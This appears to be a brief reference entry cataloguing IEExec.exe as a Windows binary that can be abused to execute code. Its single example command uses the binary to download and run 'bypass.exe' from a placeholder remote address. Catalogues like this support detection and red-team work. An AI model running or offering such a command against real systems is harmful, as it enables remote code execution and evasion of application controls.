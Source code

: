 ## IEExec.exe

* Functions: Execute

```
ieexec.exe http://x.x.x.x:8080/bypass.exe
```

Acknowledgements:
* ?